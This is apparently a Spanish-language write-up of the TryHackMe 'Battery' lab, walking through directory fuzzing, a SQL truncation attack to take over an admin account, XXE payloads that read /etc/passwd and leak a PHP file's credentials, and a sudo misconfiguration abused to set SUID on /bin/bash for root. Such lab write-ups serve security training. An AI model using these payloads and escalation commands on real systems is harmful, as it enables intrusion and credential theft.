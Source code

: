 ```yaml
---
layout: post
title: Battery -THM
subtitle: "Battery -THM"
tags: [thm,sql,xxe]
---
```


## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Descarga de binario en la ruta `http:///10.10.24.164/report`

![report](../assets/imgs/battery/report.png)

### Fuzzing web

```
❯ dirsearch -u "http://10.10.24.164/" -w /usr/share/wordlists/dirb/common.txt -e php,txt,html -f -t 60
[...]
[11:06:43] 200 -    1KB - /acc.php
[11:06:44] 200 -  663B  - /admin.php
[11:06:45] 200 -  663B  - /admin.php/
[11:07:02] 302 -  908B  - /dashboard.php  ->  admin.php
[11:07:15] 200 -    2KB - /forms.php
[11:07:21] 403 -  285B  - /icons/
[11:07:21] 200 -  406B  - /index.html
[11:07:30] 302 -    0B  - /logout.php  ->  admin.php
[11:07:53] 200 -  715B  - /register.php
[11:07:54] 200 -   17KB - /report
[11:07:57] 301 -  313B  - /scripts  ->  http://10.10.24.164/scripts/
[11:07:57] 200 -    2KB - /scripts/
[11:07:58] 403 -  293B  - /server-status/
[11:07:58] 403 -  292B  - /server-status
[11:08:15] 302 -    1KB - /with.php  ->  admin.php
```
Posibles usuarios

```
❯ strings report | grep "@bank" | tee users
admin@bank.a
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
```

### SQL truncation

[https://linuxhint.com/sql-truncation-attack/](https://linuxhint.com/sql-truncation-attack/)

Interptando petición web `register.php`  
Creo una cuenta como usuario administrador obtenido de las cadenas imprimibles del binario `report` que se habia descargado.

`admin@bank.a` tiene 12 caracteres y el tope en el login de la página es 12.  
Por tanto registro un usuario `admin@bank.a  a` con 2 espacios mas y un caracter adicional de esta forma bypasseando la seguridad de registro.

![burp](../assets/imgs/battery/burp.png)

Inicio sesion como usuario `admin@bank.a` 

![admin](../assets/imgs/battery/admin.png)

----

### XML External Entity Attack

> Un ataque de entidad externa XML es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML debilmente configurado.

Parámetro vulnerable `<search>`

![test123](../assets/imgs/battery/test123.png)

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "file:///etc/passwd">
	]>
	<root>
		<name>
			test
		</name>
		<search>
		&payload;
		</search>
	</root>
```

![passwd](../assets/imgs/battery/passwd.png)

### Obteniendo password para cyber

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
	]>
	<root>
		<name>
			test
		</name>
		<search>
			&payload;
		</search>
	</root>
```

![acc](../assets/imgs/battery/acc.png)

```cyber:super#secure&password!```

Conexion por ssh.

```
ssh cyber@10.10.24.164
```

## Escalada de privilegios

Abusando de permisos mal configurados (sudo)

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

Como estoy dentro de la carpeta de mi usuario puedo eliminar el archivo `run.py`, crearlo nuevamente y editarlo.

```
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ ls
flag1.txt
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ cat run.py 
import os
os.system("chmod +s /bin/bash")
os.system("/bin/bash -p")
```

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859
```
